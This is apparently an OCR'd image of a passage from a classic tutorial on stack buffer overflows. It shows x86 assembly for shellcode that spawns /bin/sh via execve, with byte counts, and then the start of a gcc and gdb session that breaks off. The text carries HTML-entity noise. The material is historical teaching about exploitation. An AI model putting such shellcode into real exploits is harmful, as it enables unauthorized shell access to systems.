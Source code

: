 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 4 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 7 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;-0x2f&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;.string ""/bin/sh""&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 8 bytes

");

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
  
[aleph1]$ gdb shellcodeasm

GDB is free software and you are welcome to distribute copies of it

under certain conditions; type "show copying" to see the conditions.

There is absolutely no warranty for GDB; type "show warranty" for details.

GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
